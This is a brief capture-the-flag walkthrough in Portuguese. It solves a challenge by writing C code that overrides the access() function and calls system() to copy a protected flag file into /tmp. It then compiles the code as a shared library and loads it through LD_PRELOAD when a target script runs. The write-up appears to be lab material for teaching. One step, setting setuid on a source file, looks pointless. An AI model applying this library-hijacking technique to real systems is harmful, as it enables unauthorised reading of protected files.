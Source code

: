Ir para tmp folder e criar lib.c:

```
#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

int access(const char *pathname, int mode){

      system("/usr/bin/cat /flags/flag.txt > /tmp/myfile.txt");

      return 0;
}
```


Dar permissões a lib.c:
`chmod 4755 lib.c`

Compilar:
`gcc -fPIC -g -c lib.c`

Criar a library:
`gcc -shared -o lib.so.1 lib.o -lc`

Criar env (cat > env) e colocar:
`LD_PRELOAD=/tmp/lib.so.1`

ir para a /home/flagreader correr:
`bash my_script.sh`

ir a tmp folder ver se existe myfile.txt e obter a flag

